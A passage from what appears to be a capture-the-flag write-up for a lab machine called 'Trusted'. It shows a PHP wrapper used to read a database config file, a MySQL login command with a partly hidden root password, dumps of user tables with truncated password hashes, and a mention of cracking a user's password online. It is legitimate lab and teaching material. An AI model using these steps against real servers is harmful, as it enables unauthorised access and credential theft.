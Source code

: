 ![](https://photos.squarezero.dev/file/abir-images/Trusted/8.png)

I used the same php wrapper to see db.php file and after decoding I got the credential for MySQL server.
`mysql -u root -p 'Sup<..snip...>' -h 10.10.152.246`
![](https://photos.squarezero.dev/file/abir-images/Trusted/9.png)
![](https://photos.squarezero.dev/file/abir-images/Trusted/10.png)
![](https://photos.squarezero.dev/file/abir-images/Trusted/11.png)

### MySql Injection RCE

After looking around I found some credentials in 2 databases and I was able to crack only the password Robert using crackstation.

**User**  
```SQL
MariaDB [mysql]> select * from user;                                                                                                                                                                                                           
+-----------+------+-------------------------------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------->
| Host      | User | Password                                  | Select_priv | Insert_priv | Update_priv | Delete_priv | Create_priv | Drop_priv | Reload_priv | Shutdown_priv | Process_priv | File_priv | Grant_priv | References_priv | Index_>
+-----------+------+-------------------------------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------->
| localhost | root | *665C8B0E1F0044B6A<snip> | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y     >
| %         | root | *665C8B0E1F0044B6A9<snip> | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y     >
| 127.0.0.1 | root |                                           | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y     >
| ::1       | root |                                           | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y     >
| localhost | pma  |                                           | N           | N           | N           | N           | N           | N         | N           | N             | N            | N         | N          | N               | N     >
+-----------+------+-------------------------------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+-------
```

**News**
```SQL
MariaDB [news]> select * from users;                                                                                                                                                                                                              
+----+------------+--------------+-----------+----------------------------------+                                                                                                                                                                 
| id | first_name | short_handle | last_name | password                         |                                                                                                                                                                 
+----+------------+--------------+-----------+----------------------------------+                                                                                                                                                                 
```